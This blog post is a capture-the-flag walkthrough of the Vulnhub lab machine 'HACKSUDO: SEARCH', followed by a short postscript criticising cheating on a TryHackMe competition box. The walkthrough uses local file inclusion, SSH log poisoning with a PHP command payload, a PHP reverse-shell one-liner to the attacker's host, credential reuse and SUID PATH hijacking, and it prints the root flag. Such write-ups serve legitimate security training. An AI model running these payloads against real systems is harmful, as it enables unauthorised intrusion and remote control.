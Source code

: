 ```yaml
---
layout: post
title:  "Vulnhub: HACKSUDO: SEARCH"
date:   2021-04-26 21:00:00 +1100
category: hacking
---
```


## HACKSUDO: SEARCH
This is [HACKSUDO: SEARCH](https://www.vulnhub.com/entry/hacksudo-search,683/) from Vulnhub. It says:

>This box should be easy . This machine was created for the InfoSec Prep Discord Server (https://discord.gg/7ujQrt393b)

## Ports
SSH and HTTP only.

## Web
The basic *dirsearch*:

``
python3 /opt/dirsearch/dirsearch.py -u http://192.168.1.209
``

gives me a few things, including this:

>[06:23:34] 200 -  306B  - /.env

And in there are some creds and other stuff:

>DB_CONNECTION=mysql  
DB_HOST=127.0.0.1  
DB_PORT=3306  
DB_USERNAME=hiraman  
DB_PASSWORD=MyD4dSuperH3r0!  

Note we didn't have an open SQL port though. We need a bigger *feroxbuster* search:

``
feroxbuster -u http://192.168.1.209 -w /usr/share/seclists/Discovery/Web-Content/big.txt -C 403 -x php,txt
``

to find this:

>200      137l      288w     2918c http://192.168.1.209/search1.php

Which is what we want. Here, we find this hilarious link:

>http://192.168.1.209/search1.php?FUZZ=contact.php

Along with the comment:

>find me @hacksudo.com/contact @fuzzing always best option

Well, we better do what the man says. I use Burp Suite Turbo Intruder with /usr/share/seclists/Discovery/Web-Content/common.txt, and find the parameter we want is **me**

### LFI
So we have LFI at http://192.168.1.209/search1.php?me=/etc/passwd

A bit of enumeration reveals we cannot read the apache logs, but we can read */var/log/auth.log* so we poison SSH:

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/hacksudo_search]
└─# ssh '<?php system($_GET['cmd']); ?>'@192.168.1.209 
{% endhighlight %}

And then I think I used the PHP one liner for a shell. I tried a few before one worked; I think this one did:

``
/search1.php?me=/var/log/auth.log&cmd=php+-r+'$sock%3dfsockopen("192.168.1.208",1234)%3bexec("/bin/sh+-i+<%263+>%263+2>%263")%3b'
``

## Privesc
Remember that password from before? Yeah.

{% highlight shell %}
www-data@HacksudoSearch:/home$ ls -lash
ls -lash
total 24K
4.0K drwxr-xr-x  6 root     root     4.0K Apr 15 02:50 .
4.0K drwxr-xr-x 18 root     root     4.0K Apr 11 07:31 ..
4.0K drwxr-x---  6 hacksudo hacksudo 4.0K Apr 15 03:14 hacksudo
4.0K drwxr-x---  2 john     john     4.0K Apr 13 03:21 john
4.0K drwxr-x---  2 monali   monali   4.0K Apr 13 03:21 monali
4.0K drwxr-x---  2 search   search   4.0K Apr 15 02:50 search
www-data@HacksudoSearch:/home$ su search
Password: MyD4dSuperH3r0!
su: Authentication failure
www-data@HacksudoSearch:/home$ su john
Password: MyD4dSuperH3r0!
su: Authentication failure
www-data@HacksudoSearch:/home$ su monali
Password: MyD4dSuperH3r0!                                                               su: Authentication failure                                                     
www-data@HacksudoSearch:/home$ su hacksudo                     
Password: MyD4dSuperH3r0!                                                               
hacksudo@HacksudoSearch:/home$ cd hacksudo
hacksudo@HacksudoSearch:~$ sudo -l
sudo -l
bash: sudo: command not found
{% endhighlight %}

I knew we'd get there eventually. Now what?

{% highlight shell %}
hacksudo@HacksudoSearch:~/search/tools$ ls -lash
ls -lash
total 32K
4.0K drwxr-xr-x 2 hacksudo hacksudo 4.0K Apr 15 02:57 .
4.0K drwxr-xr-x 4 hacksudo hacksudo 4.0K Apr 14 03:50 ..
   0 -rw-r--r-- 1 hacksudo hacksudo    0 Apr 15 02:57 file
 20K ---Sr-xr-x 1 root     root      17K Apr 14 03:36 searchinstall
4.0K -rw-r--r-- 1 hacksudo hacksudo   78 Apr 14 03:34 searchinstall.c
hacksudo@HacksudoSearch:~/search/tools$ file sear
file searchinstall
searchinstall: setuid ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=36393d16c6d4da7804ed34057edeb73d7ebf0b08, not stripped
hacksudo@HacksudoSearch:~/search/tools$ cat searchinstall.c
cat searchinstall.c
#include<unistd.h>
void main()
{       setuid(0);
        setgid(0);
        system("install");
}
hacksudo@HacksudoSearch:~/search/tools$ echo sh > install
echo sh > install
hacksudo@HacksudoSearch:~/search/tools$ chmod +x install 
chmod +x install
hacksudo@HacksudoSearch:~/search/tools$ export PATH=.:$PATH
export PATH=.:$PATH
hacksudo@HacksudoSearch:~/search/tools$ ./searchinstall
./searchinstall
# id;hostname;date
id;hostname;date
uid=0(root) gid=0(root) groups=0(root),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev),1000(hacksudo)
HacksudoSearch
Mon 26 Apr 2021 07:01:30 AM EDT
# cat /root/root.txt
cat /root/root.txt
# snip ascii art
You Successfully Hackudo search box 
rooted!!!

flag={9fb4c0afce26929041427c935c6e0879}
{% endhighlight %}

So it's an SUID binary, calling 'install' without a path. Create our own, export PATH and call the binary; no problem.

## Postscript
I've been banging up against Year of the Jellyfish at [THM](https://tryhackme.com/room/yearofthejellyfish) and I just want to say a few words about it. It's described thus:

>This box is part of an OSCP voucher giveaway (prize kindly donated by @q8fawazo)! Root the box before 6PM UTC on the 30th of April 2021 to be entered into the prize draw. The winner will be chosen by raffle at that time, streamed and announced in the TryHackMe Discord server, so please make sure to join and verify if you wish to be entered in the competition. If you do not want to be entered, or are ineligible to use the voucher (under 18 years old, or already OSCP certified / have access to the PEN-200 (PWK) Materials), please ping @MuirlandOracle in the help channel for this room on the Discord to discuss this. There are also 5 One Month TryHackMe Subscription Vouchers to be given away in the same fashion (courtesy of @Virtual_Lad)

>It goes without saying that any signs of cheating will result in an immediate and permanent ban -- both from the competition and from the site/community.

I've got a shell and the first of two flags, but I haven't rooted it (yet). I don't consider myself ready for OSCP and I don't want the voucher, but it's a tasty challenge to try to complete anyway. 

But I've been following the conversation in the discord about it, and apparently people are now cheating, so someone has figured it out and has told others how to do it. Foothold is easy *once you've figured out how*, but I don't know what root is although I gather it's unusual; I haven't been able to figure it out yet. But let's say you cheat and:

1. get away with it, and
2. win the voucher

Now what? Surely if you have to cheat to solve this thing then OSCP will crush you. And if you're so lazy that you've got the skills to solve the challenge but can't be bothered, WTF? I honestly don't understand. Anyway I got sick of it so I went and did this Vulnhub box instead. 
